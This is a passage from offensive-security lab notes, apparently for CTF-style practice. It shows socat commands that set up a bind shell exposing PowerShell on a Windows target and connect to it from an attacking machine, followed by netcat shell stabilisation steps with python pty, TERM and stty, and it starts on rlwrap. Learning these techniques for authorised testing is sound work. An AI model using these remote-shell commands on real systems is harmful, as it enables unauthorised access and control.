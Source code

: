 On a Windows target we would use this command for our listener:

```sh
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```

Regardless of the target, we use this command on our attacking machine to connect to the waiting listener.

```sh
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```



### Netcat Shell Stabilisation

###### Technique 1: Python

The first technique we'll be discussing is applicable only to Linux boxes, as they will nearly always have Python installed by default. 

1. The first thing to do is use `python -c 'import pty;pty.spawn("/bin/bash")'` , which uses Python to spawn a better featured bash shell. At this point our shell will look a bit prettier, but we still won't be able to use tab autocomplete or the arrow keys, and Ctrl + C will still kill the shell.
2. Step two is: `export TERM=xterm`  -- this will give us access to term commands such as `clear`.
3. Finally (and most importantly) we will background the shell using Ctrl + Z. Back in our own terminal we use `stty raw -echo; fg`. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process. 
	 
![Netcat Stabilisation](img/nc_stabilisation.png)

###### Technique 2: rlwrap

rlwrap is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell; however, some manual stabilisation must still be utilised if you want to be able to use Ctrl + C inside the shell.
